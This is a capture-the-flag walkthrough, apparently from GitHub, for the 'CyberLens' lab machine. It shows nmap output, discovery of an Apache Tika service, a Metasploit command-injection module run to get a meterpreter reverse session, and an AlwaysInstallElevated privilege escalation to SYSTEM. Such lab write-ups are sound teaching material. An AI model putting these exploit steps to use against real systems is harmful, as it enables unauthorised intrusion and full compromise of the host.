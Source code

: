 # CyberLens

### CyberLens
Be sure to add the IP to your /etc/hosts file: `sudo echo '10.10.46.248 cyberlens.thm' >> /etc/hosts`<br />
After an initial scan to check what ports are open, this is the result of a more targeted scan: 

    nmap 10.10.46.248 -p80,135,139,445,3389 -sV -sC -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 20:14 CEST
    Nmap scan report for cyberlens.thm (10.10.46.248)
    Host is up (0.045s latency).
    
    PORT     STATE SERVICE       VERSION
    80/tcp   open  http          Apache httpd 2.4.57 ((Win64))
    |_http-server-header: Apache/2.4.57 (Win64)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: CyberLens: Unveiling the Hidden Matrix
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | rdp-ntlm-info: 
    |   Target_Name: CYBERLENS
    |   NetBIOS_Domain_Name: CYBERLENS
    |   NetBIOS_Computer_Name: CYBERLENS
    |   DNS_Domain_Name: CyberLens
    |   DNS_Computer_Name: CyberLens
    |   Product_Version: 10.0.17763
    |_  System_Time: 2024-09-30T18:14:34+00:00
    |_ssl-date: 2024-09-30T18:14:42+00:00; -2s from scanner time.
    | ssl-cert: Subject: commonName=CyberLens
    | Not valid before: 2024-09-29T18:11:49
    |_Not valid after:  2025-03-31T18:11:49
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-time: 
    |   date: 2024-09-30T18:14:37
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: -2s, deviation: 0s, median: -2s

Opening the webserver, it seems like it is a service used to get metadata from files, specifically image files.<br />
![image](https://github.com/user-attachments/assets/eed84af8-6657-4663-9e1f-acb6e1439792)<br />
However, as you can see from the image above, one can also upload .sh files, and the service correctly labels it as sh application. 
However, after enumerating a bit the website and capturing requests with burpsuite, I noticed something interesting: <br />
![image](https://github.com/user-attachments/assets/169a4eb3-8c42-42d4-86d5-dbb990934eae)<br />
I'm making requests to port 61777 of the webserver. So I immediatly tried to scan that port to check what it is: <br />
![image](https://github.com/user-attachments/assets/18a324db-e21a-4301-acf3-d8b2a8e1a19b)<br />
Jetty is simply a web server. So I visited `cyberlens.thm:61777` to see what comes up:<br />
![image](https://github.com/user-attachments/assets/ccf85c00-4d99-4bd9-987f-057283d2d1f0)<br />
Apache Tika is an open source library used to detect and extract metadata from files. This page is apparently showing us the endpoints that we can use to interact with it. And here's an interesting endpoint: <br />
![image](https://github.com/user-attachments/assets/a6891ab3-01c4-4961-8bfe-6fd97d766fe6)<br />
![image](https://github.com/user-attachments/assets/7afb34cb-bc52-433f-80e1-b765a422ad8c)<br />
That endpoint gave me the version of the Tika software that's being used(PS, I just realized that this information was also given by the scan on port 61777, but I'm stupid). After some enumeration, I found out that this Tika version is vulnerable to command injection, and the exploit is available on metasploit. The module name is `windows/http/apache_tika_jp2_jscript`. 
Correctly set up the options, in my case: 

    set LHOST 10.11.85.53
    set rhosts 10.10.46.248
    set rport 61777
    run
And I got a meterpreter session. Inside `C:\Users\Cyberlens\Desktop` we can find user.txt(flags are at the end of this writeup): <br />
![image](https://github.com/user-attachments/assets/727249b4-5fee-43f9-9a8f-385aeb1a4f81)<br />
Can we get the administrator account?<br />
I decided to use a metasploit module called `multi/recon/local_exploit_suggester`, which tries to find vulnerabilities to escalate privileges within a meterpreter session. 

    multi/recon/local_exploit_suggester
    set session YOUR_SESSION
    run
And this is what it finds: <br />
![image](https://github.com/user-attachments/assets/24cf5fd1-7ceb-4bb0-853c-a82c2bca736f)<br />
So I tried to use the first one: 

    use windows/local/always_install_elevated
    set lhost 10.11.108.100
    set lport 4445
    set session 2
And I'm now the system user, and can locate the admin flag:
![image](https://github.com/user-attachments/assets/fce9e244-3653-4423-bdaa-15c8f22017aa)<br />
